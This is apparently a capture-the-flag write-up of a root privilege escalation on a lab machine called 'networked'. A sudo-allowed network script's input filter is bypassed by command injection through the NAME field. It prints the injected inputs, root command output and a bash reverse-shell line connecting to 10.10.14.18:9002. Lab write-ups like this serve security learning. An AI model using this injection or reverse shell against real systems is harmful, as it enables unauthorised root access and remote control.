


# 20 - Root

```
[guly@networked ~]$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```


# changename.sh
```
[guly@networked ~]$ cat /usr/local/sbin/changename.sh 
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

The script creates a file in network device configuration directory and adds key value pairs to it.

* NAME=x
* PROXY_METHOD=x
* BROWSER_ONLY=x
* BOOTPROTO=x


A quick google search on `network-scripts exploit `brought me to [this](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f) page.

The author states that if you provide a blank space in the NAME everything comes after that gets executed.

# Code execution
```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh                                          
interface NAME:                                                                                
test whoami                                                                                    
interface PROXY_METHOD:                                                                        
re                                                                                             
interface BROWSER_ONLY:                                                                        
d                                                                                                                                                                                             
interface BOOTPROTO:
a              
root                   
root
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```


# Shell




# Exploit
```bash
test touch shell        # create a shell file in the current working directory, ( we can't use any symbols because of the filter in the script')
test chmod 777 shell    # set rwx permissions
test bash shell         # execute the reverse shell
```

# Reverse Shell
```sql
[guly@networked ~]$ cat /etc/sysconfig/network-scripts/shell
bash -i >& /dev/tcp/10.10.14.18/9002 0>&1
```

# Root
